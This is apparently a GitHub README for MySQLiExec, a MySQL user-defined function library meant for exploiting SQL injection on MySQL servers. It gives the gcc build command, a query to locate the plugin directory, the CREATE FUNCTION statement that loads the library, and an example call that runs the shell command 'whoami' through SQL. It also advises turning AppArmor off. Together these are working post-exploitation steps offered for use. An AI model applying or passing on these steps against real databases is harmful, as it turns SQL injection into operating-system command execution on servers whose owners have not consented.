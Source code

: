 # MySQLiExec
mssql's cmdexec-like for mysql, useful when exploiting sql injection on a mysql server.

Description: Write the compiled library to the plugins directory of mysql & load it to be able to run shell commands just like mssql's cmdexec

Compile Example: 
```bash
gcc -fPIC -Wall -I/usr/include/mysql -shared -o sqliexec.so sqliexec.c // on ubuntu with installed headers
```

Find Plugin DIR: 
```sql
SHOW VARIABLES LIKE '%plugin%';
```

Install: 
```sql
CREATE FUNCTION sqliexec RETURNS STRING SONAME 'sqliexec.so';
```

Run: 
```sql
SELECT sqliexec('whoami');
```

Notes: make sure AppArmor is turned off for mysql on linux machines

Author: Kasif Dekel

Version: 1.0
